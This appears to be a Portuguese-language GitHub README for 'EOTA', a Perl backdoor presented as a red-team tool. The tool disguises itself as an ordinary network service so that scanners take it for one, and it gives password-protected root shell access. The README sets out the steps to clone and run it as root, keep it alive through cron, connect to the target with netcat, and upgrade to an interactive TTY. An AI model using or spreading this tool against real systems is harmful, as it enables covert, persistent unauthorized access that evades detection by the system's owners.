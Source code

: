 # EOTA
Este script é uma backdoor ''' Perl ''' projetada para equipes vermelhas e que funciona como um serviço/porta qualquer que voce desejar.
A backdoor informar qualquer programa de mapeamento de rede que ele é um serviço determinado pelo orquestrador da ferramenta.
Por favor modifique o codigo fonte da ferramenta para personalização.

#### obs: Necessario modificação para implementar criptografia no trafego.

## VARIAVEIS 
* $service = Utilizada como banner para ser exibido aos scanners.

* $sec = Esta é uma senha para utilizar a backdoor, não queros xeretas xeretando, utilize o perl para gerar a senha:
perl -e 'print crypt ("PASSWORD","salto")'
Modifique o PASSWORD para a senha e o SALTO para o salto utilizado na senha.

* $acs = Modifique esta variavel para controle de shell , por default utilizamos o /bin/bash.

## DICA:
EOTA foi projetado para ser utilizado com um arquivo CRON, seu banner exibe as configuracoes necessarias para esta feature funcionar.

## EXECUTANDO
Para executar EOTA voce precisará de acesso root ao sistema, depois execute os seguintes comandos:

>$ git clone https://github.com/Outs1d3r-Net/PERL.git<br/>
>$ cd PERL
>$ chmod a+x EOTA.pl
>$ perl ./EOTA.pl 110 & 2>&1

## CONECTANDO
>$ nc IP_alvo 110
>PASSWORD
>id

## TTY
Se voce precisar de um TTY voce verificar com o python por exemplo para obter uma linha de comando mais interativa:
>which python
>/usr/bin/python2 -c 'import pty;pty.spawn("/bin/bash")'
